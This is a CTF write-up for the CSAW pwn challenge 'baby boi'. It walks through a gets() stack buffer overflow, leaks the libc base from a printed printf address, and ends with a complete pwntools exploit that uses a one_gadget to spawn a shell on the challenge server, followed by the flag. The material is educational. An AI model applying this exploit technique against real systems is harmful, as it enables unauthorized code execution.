







baby boi
===========
**Category**: pwn  **Points**: 50

Challenge Description
-------------
We are given three files: baby_boi the challenge binary, libc-2.27 and the source code.

Solution
--------------
Viewing the source code, we can see the vulnerable function `gets` that allows us to write arbitrary string to the 32-byte buffer. We can also see the second printf that prints the address of printf itself, this could be useful for calculating the libc base address.



So if we proceed and run the challenge binary, it prints out `Hello!` followed by the printf address. It then waits for an input (the `gets` part), upon receiving the input it then exits.



If we supply it with a large enough value then it overflows with a segmentation fault. If we see it in gdb then it's clear we can control `rip`.



However since NX is enabled we cannot execute the stack. However since we know the address of printf, we can calculate the libc offset and try to build an ROP chain.



So our goal is to calculate the libc base address first. Since we already have the libc provided, we can easily calculate it with the following code using `pwntools`

```python
libc = ELF("libc-2/27.so")
# get printf address
stuff = r.recvuntil("Hello!\n")
address = r.recvuntil("\n")
printf = int(address[11:], 16)
# get printf offset
printf_off = libc.symbols["printf"]
log.info("printf @ %s" % hex(printf))
# calculate libc base address
libc_base = printf - printf_off
log.info("libc base @ %s" % hex(libc_base))
```
We can verify this in gdb with `p printf` and `vmmap`, we can see printf address is correct, however I could not verify libc as the libc version is incorrect and the program failed if I supplied it with custom libc ` p = process("./baby_boi",env={"LD_PRELOAD" : "./libc-2-27.so"})`



Nevertheless assuming the libc base address is correct, I continued to build a ROP chain. Instead of manually building a ROP chain and execve /bin/sh, we can use one_gadget to do that for us (https://github.com/david942j/one_gadget)



We can use either one of them as all of them works. We can add the libc base address to this one_gadget and run execve /bin/sh. Here is the final exploit:

```python
from pwn import *

#r = process('./baby_boi')
r = remote("pwn.chal.csaw.io", 1005)

# libc
libc = ELF("libc-2.27.so")

# attach gdb
#gdb.attach(r.pid, """c""")
#raw_input("pause for gdb")

one_gadget = 0x4f322

stuff = r.recvuntil("Hello!\n")
address = r.recvuntil("\n")
printf = int(address[11:], 16)

printf_off = libc.symbols["printf"]
log.info("printf @ %s" % hex(printf))
libc_base = printf - printf_off
log.info("libc base @ %s" % hex(libc_base))

p = "A"*40
p += p64(libc_base + one_gadget)

r.clean()
r.sendline(p)

r.interactive()
```



Here is our flag: `flag{baby_boi_dodooo_doo_doo_dooo}`


